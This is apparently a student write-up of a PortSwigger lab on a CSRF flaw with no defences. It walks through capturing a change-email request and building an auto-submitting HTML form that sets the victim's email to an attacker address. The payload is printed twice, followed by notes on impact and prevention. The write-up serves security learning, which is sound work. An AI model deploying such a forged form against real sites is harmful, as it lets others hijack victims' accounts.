





# Lab 01 - CSRF Vulnerability with No Defenses

## Lab Information

* **Lab:** CSRF vulnerability with no defenses
* **Difficulty:** Apprentice
* **Status:** ✅ Solved

---

# Objective

Exploit a Cross-Site Request Forgery (CSRF) vulnerability to change the victim's email address without their knowledge.

---

# Tools Used

* Burp Suite Community Edition
* Burp Proxy
* Exploit Server
* Web Browser

---

# Steps

## 1. Log in to the Application

Log in using the provided credentials:

```text
Username: wiener
Password: peter
```

Navigate to **My Account**.

**Screenshot**



---

## 2. Capture the Change Email Request

Change the email address and intercept the request using Burp Suite.

Example request:

```http
POST /my-account/change-email HTTP/2

email=test@example.com
```

**Screenshot**



---

## 3. Create the CSRF Exploit

Create the following HTML page:

```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attacker@example.com">
</form>

<script>
document.forms[0].submit();
</script>
```

The JavaScript automatically submits the form when the page loads.

**Screenshot**



---

## 4. Upload the Exploit

Open the **Exploit Server**.

Paste the HTML into the **Body** section and click **Store**.

**Screenshot**



---

## 5. Deliver the Exploit

Click **Deliver to victim**.

The victim's browser automatically submits the forged request, changing the email address without requiring any user interaction.

**Screenshot**



---

# CSRF Payload

```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attacker@example.com">
</form>

<script>
document.forms[0].submit();
</script>
```

---

# Why It Works

The application accepts authenticated requests without verifying that they originate from the legitimate website.

Because no CSRF token or other protection is implemented, the victim's browser automatically includes its authenticated session cookie when the malicious form is submitted, allowing the attack to succeed.

---

# Impact

* Unauthorized account modifications
* Email address takeover
* Account recovery abuse
* Potential account compromise

---

# Prevention

* Implement anti-CSRF tokens.
* Validate the `Origin` and `Referer` headers.
* Set session cookies with the `SameSite` attribute.
* Require re-authentication for sensitive actions.

---

# Key Takeaways

* CSRF exploits a user's authenticated session.
* Browsers automatically send session cookies with cross-site requests.
* Applications should never rely solely on cookies for request authentication.
* CSRF tokens are one of the most effective defenses against this attack.
